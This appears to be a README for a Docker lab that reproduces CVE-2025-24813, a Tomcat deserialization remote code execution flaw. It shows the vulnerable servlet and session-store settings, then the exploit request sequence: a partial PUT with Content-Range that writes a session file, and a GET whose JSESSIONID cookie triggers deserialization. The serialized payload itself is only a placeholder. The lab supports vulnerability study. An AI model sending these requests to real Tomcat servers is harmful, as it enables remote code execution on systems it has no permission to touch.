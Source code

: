 # Tomcat Session Deserialization Remote Code Execution (CVE-2025-24813)

[中文版本(Chinese version)](README.zh-cn.md) [한국어](README.kr.md)

Apache Tomcat is a widely used open-source implementation of the Java Servlet, JavaServer Pages, Java Expression Language, and WebSocket technologies.

A deserialization vulnerability was found in Apache Tomcat from 11.0.0-M1 through 11.0.2, from 10.1.0-M1 through 10.1.34, from 9.0.0.M1 through 9.0.98. It occurs when Tomcat is configured with both writable DefaultServlet (readonly=false) and file-based session persistence. The combination allows attackers to write arbitrary files to the server and trigger deserialization of these files by manipulating the JSESSIONID cookie, ultimately leading to remote code execution.

- <https://lists.apache.org/thread/j5fkjv2k477os90nczf2v9l61fb0kkgq>
- <https://github.com/charis3306/CVE-2025-24813>
- <https://forum.butian.net/article/674>

## Environment Setup

Execute the following commands to start a vulnerable Tomcat 9.0.97 server:

```
docker compose build
docker compose up -d
```

After the server starts, you can access the Tomcat example page by visiting `http://your-ip:8080`.

## Vulnerability Reproduction

The vulnerability exists due to two key misconfigurations in Tomcat. First, the DefaultServlet is configured with readonly=false, allowing file uploads:

```xml
<servlet>
    <servlet-name>default</servlet-name>
    <servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class>
    <init-param>
        <param-name>debug</param-name>
        <param-value>0</param-value>
    </init-param>
    <init-param>
        <param-name>listings</param-name>
        <param-value>false</param-value>
    </init-param>
    <init-param>
        <param-name>readonly</param-name>
        <param-value>false</param-value>
    </init-param>
    <load-on-startup>1</load-on-startup>
</servlet>
```

Second, Tomcat is configured to use file-based session persistence.

```xml
<Manager className="org.apache.catalina.session.PersistentManager">
    <Store className="org.apache.catalina.session.FileStore"/>
</Manager>
```

Both configurations use the same default storage path: `$CATALINA_BASE/work/Catalina/localhost/ROOT`.

When sending a partial PUT request, Tomcat converts path separators (/) in the file path to periods (.) and temporarily stores the file in the session storage directory. By crafting a specific request, we can write a malicious serialized object to this directory.

To exploit this vulnerability, first send a partial PUT request with the Content-Range header to write a file named `.deserialize.session` in the temporary directory (I use the URLDNS gadget for testing purposes):

```
PUT /deserialize/session HTTP/1.1
Host: your-ip:8080
Content-Length: 1234
Content-Range: bytes 0-5/10

deserialize content
```

![](1.png)

Then, send another request with a manipulated JSESSIONID cookie to trigger deserialization of the file:

```
GET / HTTP/1.1
Host: your-ip:8080
Cookie: JSESSIONID=.deserialize


```

![](2.png)

As you can see, the URLDNS gadget is successfully deserialized, and the DNS request is sent:

![](3.png)

In a real attack scenario, the "deserialize content" would be replaced with a malicious serialized Java object that can execute arbitrary code when deserialized by web applications.
